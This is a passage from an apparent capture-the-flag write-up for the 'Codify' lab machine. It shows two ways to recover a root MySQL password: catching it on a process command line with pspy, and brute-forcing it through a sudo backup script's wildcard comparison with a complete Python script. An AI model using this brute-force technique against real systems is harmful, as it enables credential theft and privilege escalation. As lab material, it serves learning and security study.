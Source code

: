 Once it gets through all the start up, in a different session as joshua, I’ll run the script again, entering “\*” as the password. PSpy won’t catch it every time, but after a run or two, I’ll catch the command line for `mysqldump`:

```
2024/04/04 16:46:17 CMD: UID=0     PID=3758   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;

```

The password is “kljh12k3jhaskjh12kjh3” (as `-p` is the flag for the password).

#### Brute Force Password

The trickier route is to abuse the unsafe comparison with wildcards to test the password. For example if I enter “a\*” as the password, it fails:

```
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmation failed!

```

If I enter “k\*”, it works:

```
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmed!
...[snip]...

```

I can give the password without waiting for the prompt as well, but piping it into the process:

```
joshua@codify:~$ echo "*" | sudo /opt/scripts/mysql-backup.sh

Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
...[snip]...

```

Putting that together, I can write a Python script that will try all characters to find the password:

```
#!/usr/bin/env python3

import subprocess
import string

leaked_password = ""

while True:
    for c in string.printable[:-5]:
        if c in '*\\%':
            continue
        print(f"\r{leaked_password}{c}", flush=True, end="")
        result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        if "Password confirmed" in result.stdout.decode():
            leaked_password += c
            break
    else:
        break
print(f'\r{leaked_password}        ')

```